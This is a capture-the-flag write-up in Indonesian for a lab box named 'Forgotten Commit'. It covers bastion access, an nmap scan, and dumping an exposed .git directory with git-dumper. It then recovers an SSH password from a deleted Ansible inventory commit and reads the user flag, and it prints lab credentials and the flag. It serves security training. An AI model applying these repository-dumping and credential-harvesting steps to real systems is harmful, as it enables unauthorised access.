

# Forgotten Commit (Root)

## Connect to Bastion

Pertama, konek ke bastion menggunakan SSH sesuai port yg diberikan challenge.

```bash
ssh lab@s1.nfx.my.id -p 43420
```

Setelah konek, sistem otomatis membuat akun lab baru dan memberikan credential.

```text
Username : lab143c
Password : T2LOVzRBRd9h
```

Login ulang menggunakan akun tersebut.

```bash
ssh lab143c@s1.nfx.my.id -p 43420
```

Cek informasi koneksi dan IP bastion.

```bash
whoami
id
hostname
ip addr
ip route
```

Dari hasil enumerasi, IP bastion adalah `10.10.20.10` dan target berada di `10.10.20.21`.

## Enumeration

Selanjutnya lakukan scanning pada target untuk melihat port yg terbuka.

```bash
nmap -Pn -sC -sV -p- 10.10.20.21
```

Dari hasil scan ditemukan 2 port terbuka:

- 22/tcp - SSH
- 80/tcp - HTTP (nginx)

Pada port 80 ditemukan direktori `.git` yg terekspos. Ini bisa dimanfaatkan untuk melihat source code dan history repository.

## Git Enumeration

Selanjutnya dump repository menggunakan `git-dumper`.

```bash
mkdir -p ~/forgotten
cd ~/forgotten

git-dumper http://10.10.20.21/.git/ repo
```

Masuk ke repository dan lihat history commit.

```bash
cd repo
git log --oneline --all
```

Ditemukan beberapa commit:

```text
452f974 Remove Ansible inventory
f745e64 Add Ansible deployment inventory
30efc12 Add service status page
ea28dd1 Add platform documentation
83e4b5b Initial landing page
```

Terlihat ada commit yg menghapus Ansible inventory. Walaupun filenya sudah dihapus dari versi terbaru, isinya masih tersimpan di history Git.

## Finding Credentials

Lihat isi commit sebelum file inventory dihapus.

```bash
git show f745e64
```

Dari commit tersebut ditemukan credential SSH:

```text
Username : leonardo
Password : Dev0pment#2026!
```

Gunakan credential tersebut untuk login ke mesin target.

```bash
ssh leonardo@10.10.20.21
```

## User Flag

Setelah berhasil login, cek file yg tersedia.

```bash
leonardo@srv:~$ ls
user.txt
```

Baca flag menggunakan:

```bash
leonardo@srv:~$ cat user.txt
```

Flag:

```text
NFX{g1t_h1story_s3cr3ts_l34d_t0_ssh}
```


